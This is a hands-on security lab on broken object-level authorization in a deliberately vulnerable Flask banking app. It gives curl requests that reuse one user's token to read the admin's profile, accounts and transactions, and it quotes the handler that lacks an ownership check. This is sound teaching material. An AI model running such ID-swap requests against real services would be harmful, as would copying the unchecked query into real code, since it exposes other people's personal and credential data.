

# 28 — Broken object-level authorization

*Can one user's token read another user's profile?*

## What this lab does

You will sign in as `cala`, read `cala`'s profile as a baseline, and then change only the user ID in the URL to read the seeded `admin` account with the same token.

If the second request returns the other account's record, the endpoint authorizes the token but never checks that the token's user owns the requested object.

**Target:** Devom at revision [`af4290ce8d2178765bfc2bd96cf233f6d3d03161`](https://github.com/memohk/Devom/tree/af4290ce8d2178765bfc2bd96cf233f6d3d03161). **Piloted** on 29 October 2026 against the pinned revision running on loopback (Python 3.14, Flask 3.1.3). The results below were observed in that run.

## Before you begin

Complete [Common prerequisites](00-common-setup.md) and [Devom setup](01-devom-setup.md). Use only the two seeded accounts, `cala` (`100500`) and `admin` (`133700`). Do not enumerate other IDs or touch any account you did not create.

This lab is read-only. Do not call an endpoint that edits or deletes the other account.

## Tools needed

- The running Devom backend from [Devom setup](01-devom-setup.md).
- Bash and `curl`, or an API client.

Requests send `User-Agent: Postman`; without it the JSON responses are encrypted.

## Guided walkthrough

### 1. Sign in as cala and record the IDs

```bash title="Sign in as cala"
BASE='https://127.0.0.1:8080'
curl --insecure -i -A 'Postman' -H 'Content-Type: application/json' \
  --data '{"username":"cala","password":"cala123"}' "$BASE/login"
```

Copy `session_token` into `TOKEN`. The response also gives `user_id` `100500`; the other lab account is `133700`.

### 2. Read your own profile (baseline)

```bash title="Authorized read"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/100500"
```

!!! success "Expected"
    `HTTP/1.1 200 OK`, `"id": 100500`, `"username": "cala"`, and a `balance` of `1000` on a fresh database.

Record the non-sensitive fields you will compare: `id`, `username`, `name`, `email`.

!!! warning "Redact the response"
    This endpoint returns every column of the user row, including `password`, `recovery_pin`, and `security_answer`. Keep those out of your notes, screenshots, and report.

### 3. Change only the ID in the URL

```bash title="Same token, different user ID"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/133700"
```

!!! success "Expected"
    `HTTP/1.1 200 OK`, `"id": 133700`, `"username": "admin"`, and a `balance` of `999999`. The seeded admin row has no email, so that field is `null`.

Nothing else in the request changed except the path. The token still belongs to `cala`; the server used the ID from the URL. That response is the finding.



The screenshot shows the two reads side by side. It was taken in the pilot with the token hidden and only `id`, `username`, `email`, and `balance` displayed.

### 4. Check the other object routes

The same revision passes the URL ID straight into the query on two more routes. With the same token, run one read for each:

```bash title="The same pattern on account and transaction routes"
curl --insecure -s -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -o /dev/null -w 'accounts: %{http_code}\n' "$BASE/get_accounts/133700"
curl --insecure -s -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -o /dev/null -w 'transactions: %{http_code}\n' "$BASE/transactions/133700"
```

!!! success "Expected"
    `200` for both. An empty body or an empty `[]` means that account has no rows in those tables; it does not mean access was denied. Treat `/profile/133700` as the evidence and these two as examples of the same missing check.

Do not call `edit_account`, `delete_account`, or any other write route for `133700`.

### 5. Read the handler

Open `server.py` and find the `profile` route:

```python
@app.route('/profile/<user_id>', methods=['GET'])
@token_required
def profile(decoded_token, user_id):
    u = db.execute("SELECT * FROM users WHERE CAST(id AS TEXT) = ?", (str(user_id),)).fetchone()
```

`@token_required` confirms that the token is valid and gives the handler `decoded_token`, whose `sub` is the caller's ID. The query then uses `user_id` from the URL and never compares it with `decoded_token['sub']`.

### 6. Decide what the result proves

- A `200` with the other account's identity fields shows a horizontal authorization failure: a valid token for one user read another user's object.
- A `200` with an empty list on the other two routes is weaker evidence; record it as the same pattern, not as data disclosure.
- The result does not show that every Devom route is affected. Stay with the routes you tested.

## Troubleshooting

- **`401 Token is missing!`:** the header is absent or lacks the `Bearer ` prefix.
- **`401 Token is invalid!`:** the token is incomplete, expired, or copied with a newline. Sign in again.
- **`404 not found`:** the ID is not in the database. Use `100500` and `133700`; do not enumerate.
- **The body is unreadable:** add `User-Agent: Postman`.
- **`403 USER_LOCKED`:** `cala` is still blocked from another lab. Unblock it in the admin console and sign in again.

<details markdown="1">
<summary>Hints</summary>

1. Compare the token's `sub` claim with the ID in the path.
2. `decoded_token` is passed into the handler but only the URL value is used in the query.
3. Authentication answers "who is calling"; object-level authorization answers "may this caller read this object".

</details>

## Evidence

Submit these three items:

- **Baseline:** the redacted `200` response for `100500` with cala's token.
- **Cross-account read:** the redacted `200` response for `133700` with the same token, and the one path segment that differs.
- **Limits:** the two account IDs used, the endpoints tested, and a statement that no account was modified.

Redact `password`, `recovery_pin`, `security_answer`, and the full token.

## Vulnerability and Impact

`/profile/<user_id>` authenticates the request and then queries the user ID from the URL, so any valid token can read any user's record. The response contains the whole row, including the stored password and recovery PIN in this revision. The same pattern appears on `/get_accounts/<user_id>` and `/transactions/<user_id>`.

The impact is disclosure of other customers' identity, contact, and authentication data, and a starting point for further account takeover because the password and recovery PIN are returned in the same response. This lab proves the read; it does not test writes, and it does not claim that every endpoint is affected.

## Cleanup and review

- This lab changes no data. Confirm you made no write request.
- Delete the local token copy.
- If you captured a response containing another account's password or PIN, delete the capture as well.

Why does a valid token not establish permission to read every profile? What negative test would prove that a fix denies the cross-account read while keeping the owner's read working?
